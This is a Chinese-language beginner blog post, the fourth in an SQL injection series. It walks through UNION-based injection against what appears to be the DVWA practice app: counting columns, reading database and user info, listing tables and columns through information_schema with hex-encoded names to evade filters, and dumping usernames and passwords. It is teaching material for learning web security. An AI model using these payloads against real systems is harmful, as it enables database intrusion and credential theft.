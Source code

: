 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（四）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-07-01 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


一天不更就觉得是对生命的浪费啊 (,,･∀･)ﾉ゛【ps：现在果然老了，没以前那种激动人心的更新blog的感觉了】

## 使用 order by 查询字段

`order by` 语句会对查询结果进行排列，可以借此判断列数。`+--+`可以对后面内容进行注释，便利构造语句

## 联合查询获取当前数据库、用户、版本信息

可以构造`union select`语句，来查询正在使用中的用户`user()`、数据库`database()`、数据库版本`version()`、服务器操作系统等信息`@@version_compile_os`，例如：

```
union select user(),database()+--+
```

## 查询数据库用户名和密码

前面提到过，在 MySQL 5.0 及以上版本，`information_schema`存储着所有数据库下的表名和列名信息。

### 查询表名

`information_schema.tables`为数据库名下表名`tables`记录所有数据库名下所有表名信息的表。

```
union select 1, group_concat(table_name) from information_schema.tables where 
table_schema=0x64767741+--+&Submit=Submit
```

 

这条语句表示联合查询满足数据库名为`information_schema`的库中的`tables`这个表，将其所有符合条件的字段，即属于`dvwa`库的表的信息都列出来

其中`0x64767741`为十六进制数，表示数据库名`dvwa`，在我们实际操作时，应当在查询到数据库名之后将其转换为十六进制数填入这个位置，可以借此绕过过滤检测。

### 查询列名

同理`information_schema.columns`是记录数据库下所有列名信息的表

若已知表名`users`，想要查询其下面的列名，则需要用以下语句：

```
union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273+--+&Submit=Submit
```

其中`0x7573657273`为`users`的十六进制形式

### 查询用户名密码

```
union select user,password from users+--+&Submit=Submit
```

其中 users 为上一步查到的表名